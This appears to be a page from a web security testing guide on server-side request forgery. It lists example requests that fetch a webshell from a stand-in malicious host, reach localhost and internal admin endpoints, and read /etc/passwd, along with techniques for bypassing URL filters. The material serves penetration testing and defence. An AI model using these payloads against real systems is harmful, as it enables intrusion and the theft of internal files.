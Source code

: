 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide a certain functionality, with the expectation tha only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for certain injection attacks that we call SSRF. A succesfull SSRF attack can grant the attacker access to restricted actions, internal services, internal files within the application or the organization.

Some of the main mitigation attacks inlcude IP whitelisting and URL filtering. You can find out more on the
[OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

## How to Test

There are different actions that can be performed with SSRF. We will cover the most common ones.

### Endpoints Which Fetch External/Internal Resources

If we have the following request:

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=about.php
```

We can try the following payloads:

Return the content of an external resource like a webshell.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=https://malicioussite.com/shell.php
```

Use the localhost/loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host than you have enought privileges to direclty access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, is often what makes SSRF into a critical vulnerability.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=http://localhost/admin  // Alternative http://127.0.0.1/admin
```

Fetch a local file

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=file:///etc/passwd
```

### Endpoints which manipulate data (HTTP Post)

Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. Since the back-end systems are normally protected by the network topology, they often have a weaker security posture. In many cases, internal back-end systems contain sensitive functionality that can be accessed without authentication by anyone who is able to interact with the systems. For example if we have the following request:

```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

### TODO

```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

> Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

- Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

> Some applications only allow input that matches, begins with, or contains, a whitelist of permitted values. In this situation, you can sometimes circumvent the filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are liable to be overlooked when implementing ad hoc parsing and validation of URLs:

- You can embed credentials in a URL before the hostname, using the @ character. For example: <https://expected-host@evil-host>.
- You can use the # character to indicate a URL fragment. For example: <https://evil-host#expected-host>.
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: <https://expected-host.evil-host>.
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.

- You can use combinations of these techniques together.

## Tools

- Burpsuite
- ZAP

## References

- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SSRF](https://portswigger.net/web-security/ssrf)
- [Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
